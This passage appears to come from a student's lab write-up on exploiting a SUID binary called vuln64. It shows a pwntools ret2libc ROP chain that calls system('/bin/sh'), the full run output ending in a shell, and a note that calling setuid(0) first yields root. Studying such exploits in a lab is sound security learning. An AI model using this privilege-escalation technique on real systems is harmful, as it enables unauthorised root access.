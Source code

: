 We construct another ROP chain, but this time calling the system() libc function which allows us to then call execute '\bin\sh.'

```sh
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")		
libc.address = puts - libc.symbols["puts"]		
log.info(f"libc base address: {hex(libc.address)}" )

binsh = next(libc.search(b"/bin/sh"))						
rop.call(libc.sym.system, [binsh])
rop.call(libc.sym.exit)
```

Executing our final exploit gives us a shell, however, even though that the vuln64 program has the SUID bit set, we cannot spawn another process of similar privileges due to linux security features where the 'real user ID' is different than the 'effective ID.' 

```sh
┌──(student㉿kali)-[~/Desktop/assign2/exploit]
└─$ python3 exploit64.py
[*] '/home/student/Desktop/assign2/app/vuln64'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process '/home/student/Desktop/assign2/app/vuln64': pid 1447
[*] Loaded 14 cached gadgets for '../app/vuln64'
/home/student/Desktop/assign2/exploit/exploit64.py:29: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  puts = u64(p.recvuntil("\n").rstrip().ljust(8, b"\x00"))
[*] leaked puts@GLIBC found: 0x7fbb93a5a5f0
[*] '/lib/x86_64-linux-gnu/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] libc base address: 0x7fbb939e4000
[*] Switching to interactive mode
Press Enter to return...
𥥓\xbb\x7f
This is an admin tools to run programs with elevated privileges
Press Enter to return...
$ 
$ id
uid=1000(student) gid=1000(student) groups=1000(student),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),109(netdev),118(bluetooth),133(scanner),141(kaboxer)
$ whoami
student

```

## Gain root shell
To curcumvent this, we call the setuid() function before /bin/sh and set the UID to 0. Finally, we have the UID of 0 (root) when executing our exploit. 
